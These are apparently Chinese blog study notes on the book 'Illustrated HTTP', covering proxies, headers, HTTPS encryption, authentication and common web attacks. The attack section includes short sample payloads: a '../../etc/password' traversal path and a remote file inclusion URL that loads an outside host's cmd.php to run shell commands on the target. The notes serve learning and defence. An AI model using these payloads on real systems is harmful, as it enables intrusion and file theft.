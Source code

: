 ```yaml
---
layout: post
title: 图解HTTP
date: 2021-08-20
tags: 计算机基础
---
```

<!-- ### 电子书链接
[图解HTTP](/downloads/图解HTTP.pdf) <br/> -->

### 通信数据转发程序
#### 1.代理
- 代理：代理服务器的基本行为是接收客户端的请求后转发给其他服务器，不改变URI。
- 缓存代理: 代理转发时,缓存代理会预先将资源的副本(缓存)保存在代理服务器上。当代理再次接到相同资源的请求时，就可以不从资源服务器那里获取资源，而是将之前的缓存资源作为响应返回。
- 透明代理：转发请求或响应时，不对报文做任何加工的代理类型成为透明代理，反之成为非透明代理。

### 2.网关
- 网关：网关与代理非常类似，但是能将客户端的http请求转化为其他协议与线路上的服务器通信。利用网关可以提高安全性，因为可以在客户端与网关之间的通信线路上加密。

### 3.隧道
- 隧道：隧道是客户端与服务器之间建立的一条通信线路。隧道本身是透明的，不会解析http请求，会保持原样中转给服务器。隧道会用SSL等加密手段通信，保证远距离通信安全。隧道会在通信双方断开连接时结束。


### 首部Header
- 端到端首部（End-to-end Header）：此类别的首部必须转发给请求/响应的最终接收对象，且必须保存在由缓存生成的响应中。
- 逐跳首部（Hop-by-hop Header）：此类别的首部只对单次转发有效，会因缓存或代理不再转发。必须提供Connection首部字段
> Http1.1仅有8个逐跳首部字段：Connection、Keep-Alive、Proxy-Authenticate、Proxy-Authorization、Trailer、TE、Transfer-Encoding、Upgrade

### HTTPS的混合加密
- https即http在SSL或TSL安全通信线路上进行通信。
- 非对称加密优点是私钥私有，公钥公开，不会在交换密钥的过程中泄露不能公开的密钥（对称加密交换密钥的时候不能保证密钥不泄露）
- 非对称加密缺点是速度慢。
- https先用慢的非对称加密交换对称加密密钥，再用快的对称加密传递http报文，混合使用两种加密，保证了安全和速度。
> 详细步骤：
> 1. 服务器把自己公开密钥登记到数字证书认证机构
> 2. 认证机构用自己的私钥加签，发布公钥证书
> 3. 客户端用认证机构的公钥(浏览器通常内置)验签，证明服务器公钥未被篡改
> 4. 客户端用服务器公钥加密,发送报文
> 5. 服务端用私钥解密报文

- 客户端证书：需付费；用户自行安装；用户知识水平不同，实施困难；一些特殊业务，比如网银登录会使用；略
- 为什么不一直用https？答：因为SSL的加解密会消耗非常多的客户端、服务器硬件资源（CPU、内存），另外也能节省购买证书的开销。

### 身份认证
1. basic认证：使用{用户:密码}格式，base64加密。不安全。
2. digest认证：通过质询-响应防止密码被窃听，但不能防止用户被伪装。使用不便捷，且达不到安全标准。
3. SSL客户端认证：需要客户端安装证书，会有额外开销。
4. 基于表单认证：密码加盐保存；session+cookie认证；bearer token。

### web攻击
1. 输出值转义不完全引发的安全漏洞：
- XSS：例如在浏览器的输出框输入<script>标签，被浏览器解析成script脚本（而非纯文本），执行攻击代码。
- SQL注入：例如在查询输入框写sql，被当作sql语句执行（而非纯文本）。
- OS命令注入：在可调用Shell函数的地方，例如输入框内容拼接进os命令，输入";"加OS命令，攻击者就可以非法调用Shell命令。
- http首部注入攻击：例如在URL后拼接%0D%0A（HTTP报文中的换行符），接其他http首部，比如Set-Cookie设置sessionId，攻击者可以由此在响应中穿插任意首部。
- http响应截断攻击：特殊的首部注入，拼接2个%0D%0A换行符，之后便可伪造响应主体，用户浏览器会显示攻击者伪造的web页面。
- 邮件首部注入攻击：类似，略。
- 目录遍历攻击：攻击者将文件名"abc.log"修改成"../../etc/password"访问本应无权限的文件（未能处理好../)
- 远程文件包含漏洞：（主要在php）http://example.com/folo.php?mod=news.php，改成http://example.com/folo.php?mod=http://hackr.jp/cmd.php&cmd=ls,于是可以通过外部脚本让目标服务器(example.com)运行自己想要的Shell命令

2. 设置或设计上的缺陷引发的安全漏洞
- 强制浏览：例如可以通过url直接访问文件服务器上的图片/文件。
- 不正确的错误信息：例如登录提示用户名是否已注册；数据库异常上抛至页面会透露数据表设计。
- 开放重定向：允许重定向到任意指定URL。用户有可能被诱导到恶意网站。

3. 因会话管理疏忽引发的安全漏洞
- 会话劫持：攻击者用某种手段拿到用户的sessionId伪装成用户，例如利用XSS通过document.cookie窃取用户cookie中的会话ID。
- 会话固定攻击：攻击者从web网站拿到一个会话ID，攻击者准备陷阱强制用户使用这个会话ID认证，在用户完成认证之后，攻击者就能使用这个会话ID访问网站了。
- 跨站点请求伪造CSRF：

4. 其他安全漏洞
- 密码破解、点击劫持、DoS攻击、后门程序
- 点击劫持：用透明按钮/页面覆盖在用户页面上，透明按钮与用户页面按钮重合，诱导用户点击陷阱按钮。




